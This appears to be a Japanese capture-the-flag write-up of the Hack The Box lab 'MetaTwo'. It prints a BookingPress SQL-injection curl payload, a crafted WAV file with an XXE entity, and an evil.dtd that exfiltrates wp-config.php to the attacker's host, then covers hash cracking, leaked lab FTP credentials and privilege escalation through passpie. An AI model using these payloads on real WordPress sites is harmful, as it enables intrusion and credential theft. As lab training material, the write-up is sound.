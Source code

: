 ## MetaTwo
IP: 10.10.11.186  
Port: 21/tcp, 22/tcp, 80/tcp  
Domain: metapress.htb  

nmapでスキャンを行う。  
![](images/metatwo/1.png)

21番ポートでftpが動いているので、anonymousで接続ができるか試してみる。  
![](images/metatwo/2.png)

できなかった。  

80番ポートのHTTPにブラウザで接続してみる。  
![](images/metatwo/3.png)

`/etc/hosts`にドメイン名とIPアドレスを設定し、再接続を行う。  
![](images/metatwo/4.png)

この見た目...、==Word Press==が動いている！  
ページの見た目でWord Pressで作成されたものなのか否かが、直感でわかる時がある。  
同じ人いないかな。  
  
word pressが動いているので、`wpscan`でひとまずuserとpluginを列挙したり、versionを確認する。  
![](images/metatwo/5.png)![](images/metatwo/6.png)

user: `admin`、`manager`が見つかった。  
plugin: なし
version: 5.6.2  

home画面から色んなボタンぽちぽち押していると、`http://metapress.htb/events/`のページが見つかる。  
![](images/metatwo/7.png)

設定していくと、ブックマークを登録できたような画面が表示される。  
![](images/metatwo/8.png)

`http://metapress.htb/events/`でソースコードを表示してみると、`bookingpress`というpluginが使われているのを確認できる。  
![](images/metatwo/9.png)

`bookingpress`のversion 1.0.10とわかるので、既知の脆弱性が存在しないか探してみると、  
SQLiの欠陥があるらしい。  
参考(https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)  
![](images/metatwo/10.png)

以下のようなリクエストで行う。  
```
curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```  
`total_service`にSQL命令を入れているので、ここに欠陥があるのがわかる。  

payloadに必要なparameterに`_wpnonce`値が必要になるのでソースコードから探し出す。  
![](images/metatwo/11.png)

`sqlmap`を使用してSQLiを行い、データベースの抽出をする。  
![](images/metatwo/14.png)

`blog`データベースの`wp_users`テーブルにパスワードがハッシュ化されて保存されている。  
![](images/metatwo/16.png)

`John The Ripper`を使用して、元のパスワードを探す。  
![](images/metatwo/17.png)

パスワードを使い回しているサービスを探していき、Word Pressにmanagerユーザーでログインできる。  
Word Pressにログインできた時に、reverse shellを獲得する手法の一つにMediaのアップロード機能を使用して、  
phpファイルをアップロードして行う手法があるができなかった。  
![](images/metatwo/18.png)

何か方法はないか探していくと、  
Word Pressのversion5.6 or 6.7でPHP version 8.x.xにXXE(XML外部実体攻撃)の欠陥があるらしい。  
参考(https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)  

以下のような感じでアップロードするためのファイルを作成する。  
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://ip:port/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

そして、自分の環境にhttp接続を行わせ、`evil.dtd`をダウンロードさせるためのファイルを用意する。  
ここで、XXEでファイル漏洩を行い`wp-config.php`をbase64でencodeし、自分にリクエストとして送らせる。  
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://ip:port/?p=%file;'>" >
```
![](images/metatwo/19.png)

base64の魔法を解く。  
![](images/metatwo/20.png)

ftpの接続情報を取得できる。  
```
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
```

ftpに以上の認証情報を使用し、ログインを行う。  
`mailer`ディレクトリにあるファイルに認証が見つかる。  
![](images/metatwo/21.png)![](images/metatwo/22.png)

この認証情報はSSH接続で利用できる。  
user flagをゲットし、権限昇格を狙う。  
`sudo -l`や`find / -perm -u=s -type f 2>/dev/null`をすぐに実行し、  
いつもの手法なのかどうか確認するが違った。  
原点に戻り、ホームディレクトリで`ls -la`を実行。  
`.passpie`ディレクトリが見つかる。  
![](images/metatwo/23.png)

`passpie`というのは、パスワードをCLIで管理できるものである。  
参考(https://github.com/marcwebbie/passpie)

一通り調べ、`.passpie`ディレクトリに`.keys`ファイルがありGnuPGの秘密鍵が見つかる。  
`John The Ripper`の`gpg2john`を使って、秘密鍵からパスワードを探す。  
![](images/metatwo/24.png)![](images/metatwo/25.png)

`passpie`コマンドで見つけたパスワードを使用する。  
![](images/metatwo/26.png)

root flagをゲットし終了

